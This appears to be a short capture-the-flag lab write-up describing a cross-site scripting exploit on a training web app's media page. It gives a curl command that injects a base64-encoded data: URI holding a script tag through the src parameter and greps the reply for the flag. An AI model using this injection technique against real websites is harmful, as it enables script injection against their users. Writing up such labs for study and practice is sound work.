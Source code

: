 # Exploit 10 - Media page XSS

On the _media_ page, the image source attribute is managed by the _src_ query parameter. We can leverage that to inject a script tag in place of a suitable image source.

```bash
curl -s -X GET "http://192.168.56.101/index.php?page=media&src=data:text/html;base64,$(echo "<script>alert('')</script>" | base64)" | grep -oP 'The flag is : \K[0-9a-f]{64}'
```
